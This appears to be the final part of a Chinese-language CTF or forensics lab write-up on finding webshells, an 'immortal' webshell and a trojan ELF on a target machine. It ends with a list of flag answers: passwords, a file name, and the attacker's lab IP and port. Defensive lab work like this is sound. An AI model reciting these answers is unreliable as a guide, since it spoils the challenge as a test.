是的，没错，但是这里因为题目较简单，所以看目录就可以发现文件——shell(1).elf就是黑客留下了木马文件；（这么大个shell在这，想看不见都不行，再说另外一个已经查过了）

​​

记事本打开查看；

​​

所以思路还是刚刚的思路，可以直接使用Xshell链接靶机，简单提个权，接着运行这个木马文件，查看它的服务器地址及端口即可；

工具查杀的最后两题思路，操作与手动查杀思路是一样的（暂时想不出别的操作）；

‍

# 四、flag

**1.web目录存在木马，请找到木马的密码提交**

	flag{1}

**2.服务器疑似存在不死马，请找到不死马的密码提交**

	flag{hello}

**3.不死马是通过哪个文件生成的，请提交文件名**

	flag{index.php}

**4.黑客留下了木马文件，请找出黑客的服务器ip提交**

	flag{10.11.55.21}

**5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交**

	flag{3333}
